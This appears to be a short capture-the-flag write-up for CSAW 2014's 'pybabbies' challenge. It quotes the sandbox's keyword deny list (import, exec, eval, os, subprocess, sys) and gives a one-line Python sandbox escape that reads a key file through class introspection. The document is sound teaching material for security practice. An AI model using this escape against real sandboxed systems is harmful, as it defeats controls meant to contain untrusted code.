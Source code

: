 # CSAW CTF 2014: pybabbies

**Category:** Exploitation
**Points:** 200
**Description:**

> so secure it hurts
>
> ```bash
> nc 54.165.210.171 12345
> ```
>
> Written by ColdHeat
>
> [pyshell.py](pyshell.py)

## Write-up

[The provided Python script](pyshell.py) is a Python sandbox that disallows the use of the following commands:

```py
banned = [
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]
```

One possible solution is the following:

```python
print(().__class__.__bases__[0].__subclasses__()[40]('./key').read())
```

This prints the contents of the `key` file:

```
flag{definitely_not_intro_python}
```

The flag is `definitely\_not\_intro\_python`.

## Other write-ups and resources

* <http://rotlogix.com/2014/09/22/csaw-exploitation-200-pybabies/>
* <http://evandrix.github.io/ctf/2014-csaw-exploitation-200-pybabbies.html>
* <https://hexplo.it/escaping-the-csawctf-python-sandbox/>
* <http://sugarstack.io/csaw2014-pybabbies/>
* [_Escaping Python sandboxes_](https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/)
* <http://www.incertia.net/blog/csaw-ctf-quals-2014-pybabies/>
* <http://bruce30262.logdown.com/posts/234935-csaw-ctf-2014-exploitation-200-pybabbies>
